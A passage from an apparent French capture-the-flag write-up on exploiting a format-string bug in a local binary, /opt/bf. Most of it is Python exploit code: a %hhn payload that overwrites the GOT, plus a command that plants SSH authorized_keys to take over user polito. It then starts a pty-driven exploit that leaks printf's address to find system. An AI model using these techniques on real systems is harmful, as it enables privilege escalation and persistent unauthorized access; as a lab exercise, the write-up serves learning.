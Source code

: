 ```python
attack_fmt = "%{:03d}c%016$hhn%{:03d}c%017$hhn%{:03d}c%018$hhn%{:03d}c%019$hhn012345678912".format(values[0], values[1], values[2], values[3])
attack_fmt = addresses + attack_fmt

cmd = "mkdir /home/polito/.ssh; cp /tmp/authorized_keys /home/polito/.ssh/;touch /tmp/hacked.txt;"

fd = open("data.raw", "w")
fd.write(attack_fmt)
fd.write(cmd)
fd.close()

arg =  bf_print_rewind(attack_fmt) + bf_print(cmd)

fd = open("data.raw", "r")

while True:
        try:
                output = subprocess.check_output(["/opt/bf", arg], stdin=fd)
        except subprocess.CalledProcessError:
                pass
        fd.seek(0)
        if os.path.isfile("/tmp/hacked.txt"):
                print "[*] Success !"
                break

fd.close()
```

L'exécution de cet exploit ne prend que quelques secondes. Ce n'est pas parfait mais on obtient les droits de l'utilisateur *polito* comme attendu.  

Exploitation de la chaîne de format (2nd cas : dialogue avec mon tty)
---------------------------------------------------------------------

Après avoir complété le challenge, j'ai décidé de reprendre l'attaque du binaire */opt/bf*. A force de recherche j'ai trouvé un exemple de code pas très beau mais fonctionnel pour dialoguer octet après octet avec le programme.  

Le principe est de lancer le programme dans un *pty* en code canonique ([voir mon article sur les terminaux](http://devloop.users.sourceforge.net/index.php?article46/pseudo-terminaux-portes-derobees-telnet-et-tunneling)).  

De cette façon on peut complètement automatiser l'exploitation du binaire qui premièrement récupère la distance entre *printf* et *system*, deuxièmement obtient l'adresse de *printf* via *%s*, troisièmement calcule l'adresse courante de *system*, et finalement écrase la *GOT* et exécute notre payload :  

```python
import tty
import pty
import termios
import os
import sys
import struct
import subprocess
import time

real_printf = 0

def bf_print(string):
        l = len(string)
        # ask for the string on stdin
        result = ">".join([","]*len(string)) + "#"
        return result

def bf_print_rewind(string):
```
